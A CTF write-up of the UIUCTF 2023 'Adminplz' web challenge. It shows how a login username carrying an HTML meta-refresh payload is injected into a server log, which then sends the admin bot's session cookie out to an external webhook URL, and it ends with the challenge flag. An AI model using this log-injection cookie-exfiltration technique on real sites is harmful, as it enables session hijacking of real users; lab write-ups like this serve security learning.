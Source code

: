 # Adminplz (UIUCTF 2023)

**Challenge category**: Web<br>
**Challenge description**: "your daily dose of ☕"<br>
**Challenge points**: 322<br>
**CTF date**: sab, 01 Lug. 2023, 00:00 UTC — lun, 03 Lug. 2023, 00:00 UTC<br>

## Context

This challenge is about a Log Injection that leads to exfiltration of cookies.

## Exploring the challenge

![1](https://github.com/H31s3n-b3rg/CTF_Write-ups/assets/66698256/5ab67534-cd47-4328-bd60-73ab33e3e6d0)

![4](https://github.com/H31s3n-b3rg/CTF_Write-ups/assets/66698256/d673a902-6b96-49e5-97e5-8c8689e861cd)


![2](https://github.com/H31s3n-b3rg/CTF_Write-ups/assets/66698256/be43b485-a783-4e69-90d9-553995228101)

The only thing we can do on this page is logging in and submitting an url to the admin bot. If we access to the <code>/admin</code> endpoint, we'll get an error:

![3](https://github.com/H31s3n-b3rg/CTF_Write-ups/assets/66698256/e5169f48-6c01-4e8a-9ee9-ec89a89ce823)

Let's have a look at the Java code.
```javascript
const { chromium } = require('playwright-chromium');
const URL = process.argv[2];

(async () => {
    console.log('running admin bot...')
    const browser = await chromium.launch()
    const context = await browser.newContext()
    context.setDefaultTimeout(2000)
    const page = await context.newPage()
    await page.goto('http://127.0.0.1:8080/')

    // login
    await page.type('input[name=username]', 'admin')
    await page.type('input[name=password]', process.env.ADMIN_PASSWORD)
    await Promise.all([
      page.click('input[type=submit]'),
      page.waitForNavigation({
        waitUntil: 'networkidle0',
      }),
    ]);
    // visit url
    console.log("visiting target...");
    await page.goto(URL);
    await page.waitForTimeout(900000); // 15 min
    await browser.close()
    console.log('Success!')
})();
```
For the bot, server is at 127.0.0.1 on port 8080. It logs to the server and then visit the submitted url.
```java
@Component
public class CSP implements Filter {
    @Override
    public void doFilter(ServletRequest request,
                         ServletResponse response,
                         FilterChain chain) throws ServletException, IOException {
        ((HttpServletResponse) response).addHeader("Content-Security-Policy", "default-src 'none';");
        chain.doFilter(request, response);
    }
}

```
CSP is set to <code>default-src 'none'</code>. A very strict policy that prevents any external resource to be loaded and any script to be executed, thus no XSS.
```java
@PostMapping(path = "/login", consumes = {MediaType.APPLICATION_FORM_URLENCODED_VALUE})
    public String login(HttpSession session, User user) {
        if (user.getUsername().equals("admin") && !user.getPassword().equals(ADMIN_PASSWORD)) {
            return "not allowed";
        }
        session.setAttribute("user", user);
        return "logged in";
    }
```
We can't login as admin as we don't know the password, but we can login as any user, our username will be set accordingly (password isn't check).
```java
@GetMapping("/admin")
    public Resource admin(HttpServletRequest req, HttpSession session, @RequestParam String view) {
        if (isLoggedIn(session) && view.contains("flag")) {
            logger.warn("user {} [{}] attempted to access restricted view", ((User) session.getAttribute("user")).getUsername(), session.getId());
        }
        return app.getResource(isAdmin(req, session) ? view : "error.html");
    }
```
Here, two things: our username could be written inside a log (<code>/var/log/adminplz/latest.log</code>) without any sanitizing process and 
a resource specified by a user controllable GET parameter (<code>view</code>) is returned to the admin (if the endpoint is accessed by the admin).
<code>accessResource()</code> method accepts file names and urls (of any protocol).<br>
There is no possibility for an XSS, nor a possibility to inject anything on any page. The only file where we can inject something, if we are logged and 
the <code>view</code> parameter contains the "flag" substring, is <code>/var/log/adminplz/latest.log</code>. This file can be rendered as HTML by the bot's browser.
Submitting an url like <code>http://127.0.0.1:8080/admin?view=file:///var/log/adminplz/latest.log</code> will induce the admin bot to view the log file as an HTML page.
But, what we can do? We can't trigger XSS nor load any external resource. We can't get the /flag.html content. Can we steal cookies even without XSS? Yes.
If we look at the code above (the admin one), we can that not only the username is injected inside the log, but the session ID too. So, if admin visits a url 
like <code>http://127.0.0.1:8080/admin?view=file:///flag.html</code>, its session ID (authentication cookie) is written into the log. If we can exfiltrate this, 
we can authenticate us as admin to the server. In the log there is only text, but we can inject, through the username, HTML code.
How can we exfiltrate the admin cookie with a very strict CSP policy? With a <code>meta</code> tag that redirects the client to an URL that 
incorporate part of the log's content (admin's cookie included):
```html
<html><head><meta http-equiv="refresh" content='0; url=https://webhook.site/a2e16dd2-9690-4246-8c58-abf303c42a4b?exf=

...Log's content...

'></head>....
```

## Attack
Six steps:
+ Login with username <code><html><head><meta http-equiv="refresh" content='0; url=https://webhook.site/a2e16dd2-9690-4246-8c58-abf303c42a4b?exf=</code>.
+ Visit <code>https://instance_server/admin?view=file:///flag.html</code> (it's important that the <code>view</code> parameter contains a valid path (existent file),
because otherwise an error will be triggered and the log's content resetted, deleting our previous input).
+ Submit the url <code>https://127.0.0.1:8080/admin?view=file:///flag.html</code> to the admin bot.
+ Login with username <code><html>'></head></code>.
+ Visit <code>https://instance_server/admin?view=file:///flag.html</code>.
+ Submit the url <code>http://127.0.0.1:8080/admin?view=file:///var/log/adminplz/latest.log</code> to the admin bot.

After executing these steps, our server will receive a GET request with all the exfiltrated content inside a query parameter.

![adminplz_cookie](https://github.com/H31s3n-b3rg/CTF_Write-ups/assets/66698256/de9a0540-c05e-4747-9917-06997257a46a)


Got admin's session ID!
Now we have to use this cookie when accessing the <code>/admin</code> endpoint. In order to access the flag file we have to set the <code>view</code>
parameter to <code>file:///flag.html.</code>, so: <code>https://instance_server/admin?view=file:///flag.html</code>. By Visiting this link we'll get the flag!

![adminplz_flag](https://github.com/H31s3n-b3rg/CTF_Write-ups/assets/66698256/888aa3a9-0937-4f36-b173-8a7777136c59)

Flag is <code>uiuctf{adminplz_c4n_1_h4v3_s0M3_co0k13s?_b5eab1cc61c26f07e63af7f8}</code>.

